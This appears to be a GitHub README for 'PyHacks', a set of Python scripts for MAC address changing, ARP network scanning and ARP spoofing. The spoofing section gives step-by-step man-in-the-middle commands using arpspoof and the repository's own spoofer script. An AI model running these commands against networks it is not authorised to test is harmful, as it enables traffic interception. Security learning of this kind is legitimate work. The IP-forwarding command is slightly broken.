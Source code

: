## PyHacks

This PyHacks repository contains more networking and hacking related python scripts for linux system

---
1. `mac_changer.py`
this programs helps to change your MAC address (MEDIA ACCESS CONTROL) for your devices using python in ` linux [only]`

- `prerequisites : python3`
- get interface name for the devices using `ifconfig`
- run this py script as root user , use this cmd  to get root privilege ` sudo su ` and specify interface and new mac address
`python3 mac_changer --interface wlan1 --mac 11:22:33:44:55:66`

```
shell > python3 mac_changer.py --help

python3 mac_changer --help
Usage: mac_changer.py [options]

Options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface=INTERFACE
                        Used to select Interface for changing MAC address
  -m NEW_MAC, --mac=NEW_MAC
                        Used to select New MAC addresss

````
this scripts just run linux cmds in background for changing current mac address so this script works only on linux

[FAQ]
 if use python2 to run this script `subprocess.check_output()` and `subprocess.run()`is not defined in python2 , then install python3 `sudo apt install python3`
 subprocess.call() has been changed to subprocess.run() in python3
 ```
File "mac_changer.py", line 29, in get_mac_address
    ifconfig_result =  str(subprocess.check_output(["ifconfig",options.interface]),'ascii')

```
---
### Network Scanner
2.`network_scanner.py`
This Program helps to discover devices in your wifi network

- Connect the Target Wifi Network with your devices , then cmd
`ifconfig` and get the ip address (inet) eg: `192.168.1.10`

```py
python3 network_scanner  --range 192.168.1.1/24
```
This Program , Sends packets to `192.168.1.1` to `192.168.1.254`
Print the discovered Devices ip_address and MAC_address in that target network

[FAQs] if get `ImportError: No module named scapy.all` , then install scapy module 
```
pip install scapy
```
```
Usage: network_scanner.py [options]

Options:
  -h, --help            show this help message and exit
  -r RANGE, --range=RANGE
                        Use -r or --range to Scan Your Wifi Network
```

Network Scanning Using ARP

ARP Protocol is a protocol for mapping IP address to a physical machine that is recognised in the local network

ARP Illustration
- If A , B , C , D , ROUTER  is a network `192.168.43.1/24`
- A is Our machine , which says who has --range `192.168.43.1/24` IP this is ARP request , sends to devices in that network
- C Responds for that request as ARP Response  , like I have `192.168.43.7`  and My MAC address  : `00:11:22:33:44:45` for every other packet also

---
### ARP Spoofer
It's a type of attack in which a macilious actor sends false ARP message over a local network

##### Pre Exisitng ARP Spoofing Script,
Let ARP Spoofing Using `arpspoof` from `dsniff` tool
- First Scan The Local Network and discover Devices over that network , get target machine and router ip address
- Let assume Target be a windows machine , In cmd prompt , note mac address of router using `arp -a` cmd 
- Open 2 Terminal  , this required root privilege 
```
arpspoof -i wlan0 -t 192.168.0.143 192.168.0.1
arpspoof -i wlano0 -t 192.168.0.1 192.168.0.143
```


Note Mac Address of Router `arp -a` , Mac Address of Router was changed to Mac address of our machine.

Enable IP Forwarding by run this cmd `echo 1 /proc/sys/net/ipv4/ip_forward`
**To run the script**
```
shell > python3 arp_spoofer.py --help
python3 arp_spoofer.py --help
Usage: arp_spoofer.py [options]

Options:
  -h, --help            show this help message and exit
  -t TARGET_IP, --target=TARGET_IP
                         Used to select Target Machine IP Address
  -s SPOOF_IP, --spoof=SPOOF_IP
                         Used to select Spoof Machine IP Address

````

Spoofing Machine is Network Router Scan the network using `network_scanner.py` , find ip address , always router ip_address will be `XXX.XXX.X.1` it starts with 1
```py
python3 arp_spoofer.py -t 192.168.0.14 --s 192.168.0.1
``` 

---
